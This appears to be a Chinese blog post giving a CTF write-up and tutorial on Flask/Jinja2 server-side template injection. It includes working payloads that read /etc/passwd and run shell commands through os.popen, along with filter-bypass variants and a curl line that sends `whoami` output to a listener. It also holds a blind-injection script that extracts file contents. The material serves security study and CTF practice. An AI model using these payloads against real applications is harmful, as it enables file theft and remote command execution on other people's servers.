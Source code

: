 ```yaml
---
layout: post
title:  "flask框架ssti ctf利用小结"
subtitle: 'flask框架ssti ctf利用小结'
date:   2020-04-08 18:00:00
tags: SSTI CTF WEB安全 
description: 'SSTI CTF WEB安全'
color: 'RGB(205,85,85)'
cover: 'https://i.loli.net/2020/04/08/SI4Y9qUnHKrLV3z.jpg' 
---
```


#### 前言
闲着刷攻防世界题目的时候遇到一个题目，打开一看可以明显感觉到是服务器模板注入（SSTI），对漏洞原理倒是了解，但是payload构造却难住了，搜索相关资料后做一个记录，加固理解并分享。

#### 题目源码

```
import flask
import os 

app = flask.Flask(__name__) 
app.config['FLAG'] = os.environ.pop('FLAG') 

@app.route('/') 
def index(): 
    return open(__file__).read() 

@app.route('/shrine/') 
def shrine(shrine): 
    def safe_jinja(s): 
        s = s.replace('(', '').replace(')', '') 
		blacklist = ['config', 'self'] 
		return ''.join(['{{% set {}=None%}}'.format(c) for c in blacklist]) + s 
return flask.render_template_string(safe_jinja(shrine)) 

if __name__ == '__main__': 
	app.run(debug=True)
```

#### 服务端模板注入
当web应用使用模板系统（如twig，jinja2等），在网页中插入动态内容。当输入内容被恶意控制时，就会产生该漏洞。

#### 在python如何利用ssti攻击
在python中，object类是Python中所有类的基类，如果定义一个类时没有指定继承哪个类，则默认继承object类。

```
>>> print("".__class__)
>>> <class 'str'>
```
对于一个空字符串他已经打印了str类型，在python中，每个类都有一个bases属性，列出其基类。

```
>>> print("".__class__.__bases__)
(<type 'basestring'>,)
>>> print("".__class__.__base__.__base__)
<type 'object'>
>>> print("".__class__.__mro__)
(<type 'str'>, <type 'basestring'>, <type 'object'>)
```
这样就找到了他的基类object。也可以通过mro（解析方法调用的顺序）进行查找。
在flask ssti中poc中很大一部分是从object类中寻找我们可利用的类的方法。

```
>>> print("".__class__.__mro__[2].__subclasses__())
[<type 'type'>, <type 'weakref'>, <type 'weakcallableproxy'>, <type 'weakproxy'>, <type 'int'>, <type 'basestring'>, <type 'bytearray'>, <type 'list'>, <type 'NoneType'>, <type 'NotImplementedType'>, <type 'traceback'>, <type 'super'>, <type 'xrange'>, <type 'dict'>, <type 'set'>, <type 'slice'>, <type 'staticmethod'>, <type 'complex'>, <type 'float'>, <type 'buffer'>, <type 'long'>, <type 'frozenset'>, <type 'property'>, <type 'memoryview'>, <type 'tuple'>, <type 'enumerate'>, <type 'reversed'>, <type 'code'>, <type 'frame'>, <type 'builtin_function_or_method'>, <type 'instancemethod'>, <type 'function'>, <type 'classobj'>, <type 'dictproxy'>, <type 'generator'>, <type 'getset_descriptor'>, <type 'wrapper_descriptor'>, <type 'instance'>, <type 'ellipsis'>, <type 'member_descriptor'>, <type 'file'>, <type 'PyCapsule'>, <type 'cell'>, <type 'callable-iterator'>, <type 'iterator'>, <type 'sys.long_info'>, <type 'sys.float_info'>, <type 'EncodingMap'>, <type 'fieldnameiterator'>, <type 'formatteriterator'>, <type 'sys.version_info'>, <type 'sys.flags'>, <type 'sys.getwindowsversion'>, <type 'exceptions.BaseException'>, <type 'module'>, <type 'imp.NullImporter'>, <type 'zipimport.zipimporter'>, <type 'nt.stat_result'>, <type 'nt.statvfs_result'>, <class 'warnings.WarningMessage'>, <class 'warnings.catch_warnings'>, <class '_weakrefset._IterationGuard'>, <class '_weakrefset.WeakSet'>, <class '_abcoll.Hashable'>, <type 'classmethod'>, <class '_abcoll.Iterable'>, <class '_abcoll.Sized'>, <class '_abcoll.Container'>, <class '_abcoll.Callable'>, <type 'dict_keys'>, <type 'dict_items'>, <type 'dict_values'>, <class 'site._Printer'>, <class 'site._Helper'>, <type '_sre.SRE_Pattern'>, <type '_sre.SRE_Match'>, <type '_sre.SRE_Scanner'>, <class 'site.Quitter'>, <class 'codecs.IncrementalEncoder'>, <class 'codecs.IncrementalDecoder'>, <type 'operator.itemgetter'>, <type 'operator.attrgetter'>, <type 'operator.methodcaller'>, <type 'functools.partial'>, <type 'MultibyteCodec'>, <type 'MultibyteIncrementalEncoder'>, <type 'MultibyteIncrementalDecoder'>, <type 'MultibyteStreamReader'>, <type 'MultibyteStreamWriter'>]
```
使用subclasses()方法（返回的是这个类的子类的集合），返回object类子类的集合
接下来就是我们需要找到合适的类，然后从合适的类中寻找我们需要的方法。
瞅了一圈没找到。
尝试初始化了一些变量，但是没找到想要的东西，可能是因为是python2.7的缘故或者windows环境问题

```
print(object.__subclasses__()[61].__init__.__globals__)
```
不过问题不大，这里的主要目的明白即可。
==通过基类找到可以执行命令或者文件操作的类，然后找具体函数调用即可。==

一些payload
```
# object.__subclasses__()[40]为file类
object.__subclasses__()[40]('/etc/passwd').read()
# object.__subclasses__()[59].__init__.func_globals.linecache下直接有os类
object.__subclasses__()[59].__init__.func_globals.linecache.os.popen('id').read()

```

然后就需要在ctf中各种过滤

##### 过滤中括号

```
使用__getitim__绕过中括号限制
request.__class__.__mro__.__getitem__(8)
```


##### 过滤引号

```
先获取chr函数，赋值给chr，后面拼接字符串
{% set chr=().__class__.__bases__.__getitem__(0).__subclasses__()[59].__init__.__globals__.__builtins__.chr %}{{ ().__class__.__bases__.__getitem__(0).__subclasses__().pop(40)(chr(47)%2bchr(101)%2bchr(116)%2bchr(99)%2bchr(47)%2bchr(112)%2bchr(97)%2bchr(115)%2bchr(115)%2bchr(119)%2bchr(100)).read() }}
借助request对象
{{ ().__class__.__bases__.__getitem__(0).__subclasses__().pop(40)(request.args.path).read() }}&path=/etc/passwd
执行命令
{% set chr=().__class__.__bases__.__getitem__(0).__subclasses__()[59].__init__.__globals__.__builtins__.chr %}{{ ().__class__.__bases__.__getitem__(0).__subclasses__().pop(59).__init__.func_globals.linecache.os.popen(chr(105)%2bchr(100)).read() }}
```

##### 过滤双下划线

```
{{ ''[request.args.class][request.args.mro][2][request.args.subclasses]()[40]('/etc/passwd').read() }}&class=__class__&mro=__mro__&subclasses=__subclasses__
```

##### 过滤大括号

```
利用{%%}标记
{% if ''.__class__.__mro__[2].__subclasses__()[59].__init__.func_globals.linecache.os.popen('curl http://127.0.0.1:7999/?i=`whoami`').read()=='p' %}1{% endif %}
相当于盲命令执行，利用curl将执行结果带出来
读取文件可以利用盲注的方法逐位将内容爆出来
{% if ''.__class__.__mro__[2].__subclasses__()[40]('/tmp/test').read()[0:1]=='p' %}~p0~{% endif %}
使用盲注脚本修改一下即可
# -*- coding: utf-8 -*-
import requests


url = 'http://127.0.0.1:8080/'

def check(payload):
    postdata = {
        'exploit':payload
        }
    r = requests.post(url, data=postdata).content
    return '~p0~' in r

password  = ''
s = r'0123456789abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ!"$\'()*+,-./:;<=>?@[\\]^`{|}~\'"_%'

for i in xrange(0,100):
    for c in s:
        payload = '{% if "".__class__.__mro__[2].__subclasses__()[40]("/tmp/test").read()['+str(i)+':'+str(i+1)+'] == "'+c+'" %}~p0~{% endif %}'
        if check(payload):
            password += c
            break
    print password
```

#### 题解
这个ctf题目过滤了括号，还加了黑名单[config , self ]  
这里就又涉及到另外一个知识  
flask 中内置的的变量函数  

##### flask 中内置的的变量函数  
```
config ：可以从模板中直接访问Flask当前的config对象：{{config.SQLALCHEMY_DATABASE_URL}}

request : 就是flask中代表当前请求的request对象 ， {{request.url}}

session :为Flask的session对象 ,{{session.new}} True

g变量：在视图函数中设置g变量的那么属性的值，然后再模板中直接可以取出{{g.name}}

url_for() : url_for会根据传入的路由器函数名，返回该路由的URL，在模板中始终使用url_for（）就可以安全的修改路由绑定的URL，则不必担心模板中渲染错的连接，{{url_for('home')}} ，如果我们定义的路由URL是带有参数的，则可以把他们作为关键字参数传入url_for（），Flask会把他们填充进最终生成的URL中，{{url_for('post',post_id=1)}}

get_flashed_messages():这个函数会返回之前在flask中通过flask（）传入的消息的列表，flash函数的作用很简单，可以把由Python字符串表示的信息加入一个消息队列中，在使用get_flashed_message()函数取出他们并消费掉


{%for message in get_flashed_messages()%}
{{message}}
{% endfor %}
```

##### payload
最后构造出如下payload

```
{{get_flashed_messages.__globals__['current_app'].config['FLAG']}}
```

#### 各类ssti的一些模板渲染引擎及利用
![7.png](https://xzfile.aliyuncs.com/media/upload/picture/20181221165627-4d167624-04fe-1.png)
#### 参考链接
https://xz.aliyun.com/t/3679  
https://p0sec.net/index.php/archives/120/